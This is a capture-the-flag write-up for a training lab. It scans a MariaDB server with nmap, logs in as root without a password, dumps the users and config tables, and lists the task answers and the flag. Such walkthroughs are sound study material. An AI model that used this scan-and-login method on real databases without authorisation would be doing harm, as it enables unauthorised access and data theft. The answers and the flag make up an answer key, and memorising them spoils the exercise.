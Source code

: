 # Table of Contents

- [Research](#research)
- [Reproduce](#reproduce)
- [Flag](#flag)

# Research

TASK 1

What does the acronym SQL stand for?

Structured Query Language

TASK 2

During our scan, which port running mysql do we find?

3306

TASK 3

What community-developed MySQL version is the target running?

MariaDB

TASK 4

What switch do we need to use in order to specify a login username for the MySQL service?

u=

TASK 5

Which username allows us to log into MariaDB without providing a password?

root

TASK 6

What symbol can we use to specify within the query that we want to display everything inside a table?

*

TASK 7

What symbol do we need to end each query with?

;

# Research

## nmap portscan

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.95.232 -p 3306 -A -T4
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-24 18:41 BST
    Nmap scan report for 10.129.95.232
    Host is up (0.019s latency).

    PORT     STATE SERVICE VERSION
    3306/tcp open  mysql?
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
    |   Thread ID: 99
    |   Capabilities flags: 63486
    |   Some Capabilities: SupportsLoadDataLocal, ODBCClient, LongColumnFlag, SupportsCompression, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, FoundRows, Support41Auth, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
    |   Status: Autocommit
    |   Salt: %>I4f&*><P]aRT2<sR"O
    |_  Auth Plugin Name: mysql_native_password

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 199.75 seconds


## Connect to database

    ┌──(kali㉿kali)-[~]
    └─$ mysql -h 10.129.95.232 -P 3306 -u root
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 91
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
    ...
 
 ## Query
    
    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | htb                |
    | information_schema |
    | mysql              |
    | performance_schema |
    +--------------------+
    4 rows in set (0.027 sec)

    ...

    MariaDB [(none)]> use htb;
    
    MariaDB [htb]> show tables;
    +---------------+
    | Tables_in_htb |
    +---------------+
    | config        |
    | users         |
    +---------------+
    2 rows in set (0.024 sec)

    
    ...
    
    MariaDB [htb]> select * from users;
    +----+----------+------------------+
    | id | username | email            |
    +----+----------+------------------+
    |  1 | admin    | admin@sequel.htb |
    |  2 | lara     | lara@sequel.htb  |
    |  3 | sam      | sam@sequel.htb   |
    |  4 | mary     | mary@sequel.htb  |
    +----+----------+------------------+
    4 rows in set (0.024 sec)

    MariaDB [htb]> select * from config;
    +----+-----------------------+----------------------------------+
    | id | name                  | value                            |
    +----+-----------------------+----------------------------------+
    |  1 | timeout               | 60s                              |
    |  2 | security              | default                          |
    |  3 | auto_logon            | false                            |
    |  4 | max_size              | 2M                               |
    |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
    |  6 | enable_uploads        | false                            |
    |  7 | authentication_method | radius                           |
    +----+-----------------------+----------------------------------+
    7 rows in set (0.020 sec)



# Reproduce

    mysql -h 10.129.95.232 -P 3306 -u root
    
    MariaDB [(none)]> use htb;

    MariaDB [htb]> select * from config;
    +----+-----------------------+----------------------------------+
    | id | name                  | value                            |
    +----+-----------------------+----------------------------------+
    |  1 | timeout               | 60s                              |
    |  2 | security              | default                          |
    |  3 | auto_logon            | false                            |
    |  4 | max_size              | 2M                               |
    |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
    |  6 | enable_uploads        | false                            |
    |  7 | authentication_method | radius                           |
    +----+-----------------------+----------------------------------+
    7 rows in set (0.020 sec)


# Flag

7b4bec00d1a39e3dd4e021ec3d915da8

